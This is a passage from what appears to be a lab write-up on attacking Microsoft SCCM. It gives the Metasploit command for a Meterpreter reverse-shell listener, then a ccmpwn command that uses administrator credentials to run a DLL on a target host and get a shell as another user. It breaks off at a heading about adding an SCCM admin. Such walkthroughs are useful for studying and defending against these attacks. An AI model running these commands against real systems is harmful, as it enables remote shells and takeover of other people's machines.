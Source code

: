 - Launch metasploit

```bash
msfconsole -x "use exploits/multi/handler; set lhost vmnet6; set lport 443; set payload windows/x64/meterpreter/reverse_tcp; set EXITFUNC thread; set EnableStageEncoding true; set StageEncoder x64/xor_dynamic; set ExitOnSession false; run -j"
```

- And finally launch ccmpwn

```bash
python3 ccmpwn.py 'CLIENT'/administrator:'EP+xh7Rk6j90'@192.168.33.13 exec -dll msf.dll -config msf.config 
```

- A few seconds later we get a shell as eve \o/

![ccmpwn_impersonate.png](/assets/blog/SCCM/ccmpwn_impersonate.png)

# Exploit with SCCM admin account

## Add a new admin

- What we can do with an SCCM admin account is add a new admin
